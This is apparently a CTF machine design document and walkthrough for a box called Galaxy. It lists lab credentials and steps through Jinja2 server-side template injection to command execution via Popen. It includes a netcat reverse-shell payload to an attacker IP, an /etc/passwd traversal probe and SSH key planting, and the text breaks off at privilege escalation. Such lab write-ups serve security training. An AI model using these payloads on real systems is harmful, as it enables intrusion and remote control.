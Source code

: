 # [Galaxy]

## Introduction

This machine inspired from this bug bounty report: https://hackerone.com/reports/125980<br>
Galaxy is medium level machine with SSTI vulnerability and CVE-2019-14287 for root part. I suggest medium because getting shell is not straight forward it requires enumeration to get rce via SSTI, however players can do that by googling about SSTI. Player will learn about Popen subclassess and running multiple commands.
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is restricted page vulnerable to SSTI
3) After enumerating subclasses in SSTI players need to find number of Popen subclass
4) For root privilege escalation I set CVE-2019-14287 it is from real world and I believe it suits to box story
5) There is other user besides `web` and `root` (john) and this is dummy user which has no password. I set them for box story and player needs to critical thinking to get shell after finding out CVE-2019-14287

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find some directories one of them /developers worth to pay attention<br>

![image](https://github.com/user-attachments/assets/0f004ee2-4c74-499e-9abd-0e563c7fc92c)

Searching other subdirectories we didn't find anything usefull<br>

Let's try file inclusion with `http://galaxy.htb/developers/../../../etc/passwd` payload<br>
![image](https://github.com/user-attachments/assets/41a65f0e-d568-4238-9040-fcdf0605a18f)
<br>
There is no directory traversal or file inclusion vulnerability, but interesting thing whatever we write to url it get reflected in web page:<br>
![image](https://github.com/user-attachments/assets/67c68efa-f06b-48af-bf00-cbc3bbbf3b8e)<br>

After injecting:
````
http://galaxy.htb/developers{{7+7}}
````
We can confirm there is SSTI vulnerability
![image](https://github.com/user-attachments/assets/a1acf1be-c195-44e9-9ce4-dae252c2c3cb)

We need to know what template used, for that we use this formula:
![image](https://github.com/user-attachments/assets/14e9e059-81f0-45e6-b9bc-596ef8774d92)
<br>
Payload: `{{7*'7'}}`<br>
![image](https://github.com/user-attachments/assets/04e4f93b-c880-48a3-9114-ecdbbb3483cc)

# Foothold

## Enumeration

After searching from [blogs](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and [PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md?ref=sec.stealthcopter.com) we need to find `Popen` class for rce<br>

1) First we need to find all classes<br>
Payload: `{{''.__class__.mro()[1].__subclasses__()}}`
![image](https://github.com/user-attachments/assets/13d038bf-dbeb-44c0-8ff9-b575a2854b30)
<br>
We have hundreds of classes including `Popen` which we will use for command execution

2) We need to find it's number for that we copy all of them paste it to `vi` then hit `ESC` and type: `:%s />/\r/g` and finally use `set number` command to sort them with numbers
![image](https://github.com/user-attachments/assets/bab7a081-9157-44d8-8411-e5240b4b7da1)

After using `set number` command inside `vi` we will search `Popen`:<br>
`/Popen`
![image](https://github.com/user-attachments/assets/01372a62-a9e4-4a53-908f-6b521672c66a)
We can see it is in number 259, but in programming language number starts from `0` so it should be 258.
<br>
<br>
To confirm we use this payload: `{{''.__class__.mro()[1].__subclasses__()[258]}}`
<br>
![image](https://github.com/user-attachments/assets/221e32ef-e141-406f-a02e-fd4a06b653de)

Next thing we need to use that process to gain command execution.
Payload: `{{''.__class__.mro()[1].__subclasses__()[258]('id')}}`
![image](https://github.com/user-attachments/assets/dfbcb7af-07d5-4905-bf43-61ad0b870f7f)
Instead we get this error, let's try understand what is happening
<br>
We can use python in terminal to simulate similar situation:
![image](https://github.com/user-attachments/assets/b182b2fe-ae1c-4523-8f70-6fbb7c44a9e8)
In terminal we can execute command, but we still get `<Popen: returncode: None args: 'id'>` message and it freezes<br>
Problem is `Popen` needs `.communicate()` and `stdout=-1` commands to get proper output. Read [this](https://forums.linuxmint.com/viewtopic.php?t=356930) documentation
for more
<br>
Final payload:
````
{{''.__class__.mro()[1].__subclasses__()[258]('id',stdout=-1).communicate()}}
````
![image](https://github.com/user-attachments/assets/83cc0bef-8161-458e-9b05-81a2361238cb)

Now we got response!

## Important
subprocess.Popen and shell works differently. In Popen class you can't just type multiple commands like: "uname -a" or "cat /etc/passwd"
<br>
You need `shell=True` or you need to type independently like: `(['cat','/etc/passwd'])`
![image](https://github.com/user-attachments/assets/8b433d41-c7c7-4525-8b15-eb4aae4bad48)

Lastly to get shell we will use this payload:
````
{{''.__class__.mro()[1].__subclasses__()[258](['nc','192.168.X.X','9001','-e','/bin/bash'],stdout=-1).communicate()}}
````
Don't forget to set netcat listener!

![image](https://github.com/user-attachments/assets/dec24d30-6acd-4314-b8fb-8aa18547f04d)

We got shell. Let's use ssh to get better shell<br>
We copy our public key to /home/web/.ssh/authorized_keys:
```
echo "your id_rsa.pub key" > /home/web/.ssh/authorized_keys
```
If you don't have generate using: `ssh-keygen -t rsa`<br>
After that we can login using our own private key located in /home/your_username/.ssh:
````
ssh -i id_rsa web@galaxy.htb
````
![image](https://github.com/user-attachments/assets/78d55493-9b75-416b-a3e8-91a59efb9a07)


# Privilege Escalation
There is README.txt file let's read it!
````
Dear developers!

We have ongoing "star map" project! We need to finish it as far as possible. User john has codes in his home directory, but I can not disclose password of user john.
However you are allowed to copy those codes!
Available codes:
star-map.js
star.html
stars.js
````



